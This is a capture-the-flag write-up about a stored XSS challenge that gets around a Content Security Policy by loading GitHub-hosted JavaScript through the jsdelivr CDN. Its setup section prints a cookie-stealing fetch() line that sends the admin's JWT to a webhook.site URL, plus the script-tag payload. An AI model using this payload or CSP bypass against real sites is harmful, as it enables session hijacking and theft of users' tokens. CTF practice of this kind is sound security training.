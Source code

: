 # XSS > CDN Abuse

## website

<img src= "cursed_party_website.png">

## Description

Anytime we see "this will be reviewed" "stored for review" Admin will review" we can think XSS attack.
Also, the Docker file installs google chrome, which potentialy indicates client-side exploit.
After reviewing the source code, we can see that on the admin page. We notice the username field is vulnerable to HTML injection because it is piping the user's input to 'safe' without any sanitization.
We can also see that the flag is inside of the JSON Web Token(JWT). So we need to get the JWT in order to get the flag. 
After inspecting a request, we also see that a CDN is being used in the Content Security Policy.
I used csp-evaluator to analyze the weaknesses of this content security policy(CSP):
<img src= 'scp.png'>
Using this CDN, we can pull repositories from GitHub.. Any repository.. Leaving a hole in the CSP for out XSS attack.
So I setup a webhook at webhook.site
Then I create a repository on my GitHub with the payload to get the Admin's JWT and sent it to my webhook.
Once I received the request to my webhook, i was able to base64 decoded the token and get the flag.

## Set Up

1. Burpsuite Repeater/collaborator(Testing).
2. Grab webhook.site URL to send the token.
3. Javacript file hosted on GitHub.
   ```javascript
   fetch('https://webhook.site/<random>?cookie=' + document.cookie);
4. The final XSS payload looked like this:
   ```javascript
   <script src="https://cdn.jsdelivr.net/gh/rosepwns/test/test.js"</script>

## More Information

[XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
